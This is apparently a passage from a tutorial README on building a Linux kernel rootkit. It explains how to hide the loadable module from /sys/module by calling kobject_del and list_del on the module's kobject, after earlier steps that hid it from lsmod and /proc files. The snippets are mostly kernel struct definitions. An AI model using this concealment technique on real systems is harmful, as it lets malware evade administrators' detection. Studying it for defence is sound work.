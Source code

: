 ```c
          // elixir.bootlin: pattern: kobject

          struct kobject {
	              const char		*name;
	              struct list_head	entry;
  	            struct kobject		*parent;
	              struct kset		*kset;
	              struct kobj_type	*ktype;
  	            struct kernfs_node	*sd; /* sysfs directory entry */
	              struct kref		kref;
              #ifdef CONFIG_DEBUG_KOBJECT_RELEASE
	              struct delayed_work	release;
              #endif
	              unsigned int state_initialized:1;
	              unsigned int state_in_sysfs:1;
	              unsigned int state_add_uevent_sent:1;
	              unsigned int state_remove_uevent_sent:1;
	              unsigned int uevent_suppress:1;
          };
```
```
          // parameter to be inputed to kobject_del():

          &THIS_MODULE->mkobj.kobj
```
&nbsp;
      2. Delete the kobject, which is mapped by our rootkit LKM from "entry" list using `list_del()`. We will be using the same `list_del()` function that we used before to delete our rootkit LKM from _`lsmod`_ command, _`/proc/modules`_ file (procfs) and _`/proc/kallsyms`_ file (procfs), but this time with different <ins>parameter value</ins>. [source: [page-6-last-paragraph](https://theswissbay.ch/pdf/Whitepaper/Writing%20a%20simple%20rootkit%20for%20Linux%20-%20Ormi.pdf)]
```c
          // pwd: /lib/modules/5.11.0-49-generic/build/include/linux/kobject.h
          // elixir.bootlin: pattern: entry

          struct kobject {
                  ...
                  struct list_head        entry;
                  ...
          };
          ```
          ```
          //parameter to be inputed to list_del() in this scenario:
          /*
           * 1. THIS_MODULE
           * 2. mkobj
           * 3. kobj
           * 4. entry
           */
    
          &THIS_MODULE->mkobj.kobj.entry
```
&nbsp;
          1st three, (1,2,3) are just the same as previous case. Just adding `entry` in this context.
&nbsp;    
> ***Now we can hide our rootkit LKM from **`/sys/module/`** directory (_LKM logging directory_) !***
